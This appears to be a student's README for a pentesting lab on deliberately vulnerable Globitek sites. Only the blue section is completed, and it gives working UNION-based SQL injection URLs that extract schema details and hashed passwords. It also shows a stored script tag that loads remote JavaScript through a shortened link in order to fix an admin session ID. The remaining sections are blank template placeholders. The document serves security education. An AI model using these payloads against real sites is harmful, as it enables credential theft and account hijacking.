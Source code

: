 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)<br />  
    ![GIF Walkthrough](./img/B1.gif)<br />  
    Steps to recreate:
- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1
- Replace the id parameter with a single quote ```'```.<br />
Example: ```https://104.198.208.81/blue/public/salesperson.php?id='```
- After the quote type url encoded SQL command.<br />
Example: ```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+```
- You can interate through the records by changing the ```LIMIT``` and ```OFFSET``` values
- Some of the example commands:<br />```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+```

- Data collected:
    - Database: globitek_blue
    - Tables:
        - users
        - territories
        - states
        - salespeople_territories
        - salespeople
        - failed_logins
        - countries
        - feedback
    - Columns
        - id
        - name
        - code
        - username
        - count
        - last_attempt
        - email
        - feedback
        - created_at
        - first_name
        - last_name
        - phone
        - territory_id
        - salesperson_id
        - country_id
        - state_id
        - position
        - hashed_password

Vulnerability #2: Session Hijacking/Fixation<br />  
    ![GIF Walkthrough](./img/B2short.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
  ```html
        <script src="https://bit.ly/2z1UCVh"></script>
  ```  
  https://bit.ly/2z1UCVh is a shortened link for a <a href="./js_scripts/Untitled-8.js">js script</a> hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin  
This is possible because new PHPSESSID is not generated when a used logs into website



## Green

Vulnerability #1: __________________

Vulnerability #2: __________________


## Red

Vulnerability #1: __________________

Vulnerability #2: __________________


## Notes

Describe any challenges encountered while doing the work
